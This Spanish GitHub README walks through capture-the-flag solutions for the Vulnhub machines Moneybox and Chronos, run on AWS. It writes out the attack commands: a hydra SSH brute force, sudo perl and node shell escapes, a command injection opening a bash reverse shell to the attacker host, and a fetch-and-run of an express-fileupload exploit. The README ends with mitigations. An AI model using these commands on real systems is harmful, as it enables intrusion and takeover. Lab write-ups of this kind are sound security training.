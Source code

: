 # Introducción
En este proyecto se efectúa la solución a 02 máquinas CTF(Capture The Flag) del repositorio de Vulnhub: [Moneybox](https://www.vulnhub.com/entry/moneybox-1,653/) y [Chronos](https://www.vulnhub.com/entry/chronos-1,735/), montadas en un entorno cloud empleando el servicio EC2 de AWS.

# Infraestructura
Tanto Moneybox como Chronos se montaron en diferentes instancias EC2, adicionalmente la máquina atacante con [Kali](https://www.kali.org/get-kali/#kali-platforms). Las 03 instancias se encuentran desplegadas en la misma VPC y se realiza el networking correspondiente para que se encuentren conectadas entre sí. Sin embargo la única máquina accesible desde fuera a través de una public IP es la máquina atacante.

**`Infraestructura inicial`**
<p align="center"><img src="https://drive.google.com/uc?export=view&id=11c5o4umxrLiI0OOnam64kf3EjaVgHJ2X"></img></p>

**`Infraestructura securizada con herramientas nativas AWS`**
<p align="center"><img src="https://drive.google.com/uc?export=view&id=1pADHae9b56royVwhx0JmwbbxH67-VIH5"></img></a>

# Moneybox (Técnicas aplicadas)
**`Scanning`**
```bash
$ nmap -sV <ip-target>
```
**`FTP abuse`**
```bash
$ ftp -U anonymous:anonymous <ip-target>
$ ftp > get
```
**`Steganography & HTTP abuse`**
```bash
$ xxd -l <specific-file>
$ curl <ip-target>:80
$ dirb <ip-target>:80
$ steghide extract -sf <specific-file>
```
**`SSH Brute Force`**
```bash
$ hydra -l <any-user> -P <dictionary.txt> -f <ip-target> ssh
```
**`Privilege escalation with PERL`**
```bash
$ sudo perl -e 'exec "/bin/sh";'
```
**`Execution diagram`**
<p align="center"><img src="https://drive.google.com/uc?export=view&id=1KeScz_V1E5-qjqXH3OwnRvCzOa4t1ueu"></img></p>
**`Flags`**
```bash
> us3r1{F14g:0ku74tbd3777y4}
> us3r{F14g:tr5827r5wu6nklao}
> r00t{H4ckth3p14n3t}
```

# Chronos (Técnicas aplicadas)
**`Scanning`**
```bash
$ nmap -sV <ip-target>
```
**`HTTP abuse & domain resolution`**
```bash
$ curl http://<ip-target>
$ echo "<ip-target> chronos.local" >> /etc/hosts
$ curl http://chronos.local
```
**`Deobfuscation, decode, payload generation & command injection (Reverse shell)`**
```bash
$ curl http://chronos.local/date?format=('+Today is %A, %B %d, %Y %H:%M:%S.'; bash -c 'bash -i >& /dev/tcp/<ip-kali>/9002 0>&1')[base58 Encode]
$ nc -nlvp 9002
```
**`www-data abuse`**
```bash
$ cd ../chronos-v2/backend
$ cat package.json
```
**`RCE attack to express-fileupload (versions < 1.1.10)`**
```bash
> Kali side:
$ python3 -m http.server
$ nc -nlvp 8888

> target-side
$ wget http://<ip-kali>:8000/pollutor.py
$ python3 pollutor.py
```
**`Abuse "imera" user & Shell spawn with NODE`**
```bash
$ sudo -l
$ sudo node -e 'require("child_process").spawn("/bin/sh", {stdio: [0, 1, 2]})'
```
**`Execution diagram`**
<p align="center"><img src="https://drive.google.com/uc?export=view&id=1iwHlQc8Gl9fvGv-oV7CMMLNU5yXst9Yy"></img></p>
**`Flag`**
```bash
> YXBvcHNlIHNpb3BpIG1hemV1b3VtZSBvbmVpcmEK
```
# Medidas de mitigación de vulnerabilidades encontradas
**`Moneybox`**
+ Actualizar el servicio FTP a su ultima versión y si es posible migrar hacia otro puerto.
+ Eliminar el acceso FTP anónimo (anonymous:anonymous) asignar un usuario y una contraseña.
+ Utilizar certificados lugar de contraseñas de usuario para el acceso por SSH.
+ Emplear herramientas que eviten ataques de fuerza bruta tales como: **fail2ban** y **fwknop**.
+ Editar el fichero /etc/sudoers asignando los mínimos privilegios a grupos y usuarios.
+ Hardening del servidor web Apache.
+ Utilizar infraestructura adicional como IDS/IPS (mostrada en infraestructura securizada nativa de AWS).

**`Chronos`**
+ Evitar malas prácticas en el desarrollo backend: Evitar uso directo de comandos del sistema en el código o en su defecto, mitigar el uso de *keywords* tales como: bash, sh, whoami, etc.
+ Prevenir accesos mediante reverse-shell a través de NODE modificando el atributo de express-fileupload a **{parseNested: false}**.
+ Asignar lo mínimos privilegios mediante el fichero /etc/sudoers.
+ Emplear infraestructura securizada adicional (como la nativa proporcionada por AWS).
